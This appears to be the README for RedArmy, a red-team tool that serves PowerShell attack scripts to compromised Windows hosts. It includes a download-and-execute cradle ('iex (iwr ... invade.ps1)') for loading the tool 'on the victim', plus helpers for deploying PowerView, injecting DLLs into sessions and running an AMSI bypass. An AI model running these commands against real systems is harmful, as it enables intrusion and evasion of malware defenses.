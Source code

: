 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach git checkout master # optional
$ git submodule foreach git pull # optional
```

## Configuration

RedArmy uses `config.default` by default. You can copy it to `config`
and delete or add lines as necessary.

Any filepaths starting with `./` will create `Invoke` functions rather
than `Get` functions. `Invoke` commands are generally for things that
aren't scope specific such as modifying system settings. See [the
default config](./config.default) for examples.

## Usage

```
$ ./serve [--port PORT] [--update] <ip>
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.ps1)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load DLL object into current session
    - `Import-ADModuleDLL`
- Load DLL object into specified session
    - `Deploy-ADModuleDLL <session>`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypass`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypass <session>`
